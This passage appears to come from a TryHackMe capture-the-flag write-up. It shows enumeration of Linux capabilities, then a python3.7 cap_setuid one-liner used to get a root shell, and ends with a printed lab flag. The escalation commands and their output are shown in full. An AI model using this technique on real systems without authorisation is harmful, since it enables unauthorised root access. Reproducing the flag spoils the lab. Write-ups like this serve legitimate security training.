 ```
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                                                      
Current capabilities:                                                                                                                                           
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+i
CapInh: 00000000a80425fb
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 00000000a80425fb
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 00000000a80425fb
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep

```

Using the method found here, I was able to privesc to *root*:

>https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

```
daemon@4a70924bafa0:/usr/bin$ getcap -r / 2> /dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:/usr/bin$ cd /usr/bin
daemon@4a70924bafa0:/usr/bin$ ls -al python3
lrwxrwxrwx 1 root root 9 Mar 26  2019 python3 -> python3.7
daemon@4a70924bafa0:/usr/bin$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@4a70924bafa0:/usr/bin# whoami
root
root@4a70924bafa0:/usr/bin# id
uid=0(root) gid=1(daemon) groups=1(daemon)
root@4a70924bafa0:/usr/bin# 
```

Found the **user.txt** but unable to locate the **root.txt** file yet:

```
root@4a70924bafa0:/usr/bin# find / -type f -iname user.txt 2> /dev/null
/root/user.txt
root@4a70924bafa0:/usr/bin# cat /root/user.txt
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
root@4a70924bafa0:/usr/bin# find / -type f -iname root.txt 2> /dev/null
root@4a70924bafa0:/usr/bin# 
```
